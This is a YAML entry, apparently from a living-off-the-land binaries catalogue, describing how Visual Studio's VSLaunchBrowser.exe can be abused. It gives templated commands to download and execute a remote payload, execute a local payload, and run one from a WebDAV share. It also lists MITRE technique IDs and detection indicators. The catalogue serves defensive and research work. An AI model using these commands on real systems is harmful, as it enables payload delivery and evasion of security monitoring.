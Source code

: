 ```yaml
---
Name: VSLaunchBrowser.exe
Description: Microsoft Visual Studio browser launcher tool for web applications debugging
Author: Avihay Eldad
Created: 2024-04-12
Commands:
  - Command: VSLaunchBrowser.exe .exe {REMOTEURL:.exe}
    Description: Download and execute payload from remote server
    Usecase: It will download a remote file to INetCache and open it using the default app associated with the supplied file extension with VSLaunchBrowser as parent process.
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows
    Tags:
      - Download: INetCache
  - Command: VSLaunchBrowser.exe .exe {PATH_ABSOLUTE:.exe}
    Description: Execute payload via VSLaunchBrowser as parent process
    Usecase: It will open a local file using the default app associated with the supplied file extension with VSLaunchBrowser as parent process.
    Category: Execute
    Privileges: User
    MitreID: T1127
    OperatingSystem: Windows
    Tags:
      - Execute: EXE
  - Command: VSLaunchBrowser.exe .exe {PATH_SMB}
    Description: Execute payload from WebDAV server via VSLaunchBrowser as parent process
    Usecase: It will open a remote file using the default app associated with the supplied file extension with VSLaunchBrowser as parent process.
    Category: Execute
    Privileges: User
    MitreID: T1127
    OperatingSystem: Windows
    Tags:
      - Execute: EXE
      - Execute: Remote
Full_Path:
  - Path: C:\Program Files\Microsoft Visual Studio\<version>\Community\Common7\IDE\VSLaunchBrowser.exe
  - Path: C:\Program Files (x86)\Microsoft Visual Studio\<version>\Community\Common7\IDE\VSLaunchBrowser.exe
Detection:
  - IOC: cmd.exe as sub-process of VSLaunchBrowser
  - IOC: URL on a VSLaunchBrowser command line
  - IOC: VSLaunchBrowser making unexpected network connections or DNS requests
Acknowledgement:
  - Person: Avihay Eldad
    Handle: '@AvihayEldad'
---
```

